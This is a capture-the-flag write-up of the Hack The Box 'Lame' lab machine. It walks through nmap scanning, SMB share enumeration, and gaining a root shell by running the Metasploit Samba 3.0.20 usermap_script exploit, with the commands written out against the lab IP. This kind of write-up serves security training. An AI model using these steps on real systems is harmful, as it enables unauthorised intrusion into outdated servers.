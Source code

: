 ```yaml
---
layout: post
title: HTB - Lame Writeup
date: 2019-02-08
image: '/images/posts/htb/lame/lame.jpg'
categories: ["writeups"]
tags: ["writeups", "lame", "htb"]
---
```


* Box: Lame
  - Difficulty: Easy
  - Points: 20
  - Release: 14 Mar 2017
  - IP: 10.10.10.3


### Initial Enumeration

#### 1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA lame.nmap 10.10.10.3`

The nmap scan shows a vsftpd FTP server that is allowing anonymous connections. We also see port 22 and 445 open indicating there may be some network shares available for us.

<img src="/images/posts/htb/lame/lame1.jpg">

#### 2. FTP Enumeration

We can see the vsftpd version is 2.3.4 which is extremely outdated. We can also see that there is a metasploit module for this version. However, that isn't exploitable in this instance.


#### 3. SMB Enumeration

We can run **smbmap** to see if we have access to any network shares. The scan shows we have read/write access to the **tmp** share. After connecting to it with **smbclient** we don't find anything of interest.

`smbmap -H 10.10.10.3`

<img src="/images/posts/htb/lame/lame2.jpg">

Our earlier nmap scan indicates the smbd version is 3.0.20, which is also outdated and has exploits available. Conveniently, metasploit also has a module for this.

### Exploitation

#### 4. Smbd 3.0.20 Exploit

Load up metasploit and simply load up the exploit for this version of smbd. Once the target is set and exploit is run, we have a root shell. Super simple.

`msf > use exploit/multi/samba/usermap_script
msf > set RHOSTS 10.10.10.3
msf > run`

<img src="/images/posts/htb/lame/lame3.jpg">

<img src="/images/posts/htb/lame/lame4.jpg">
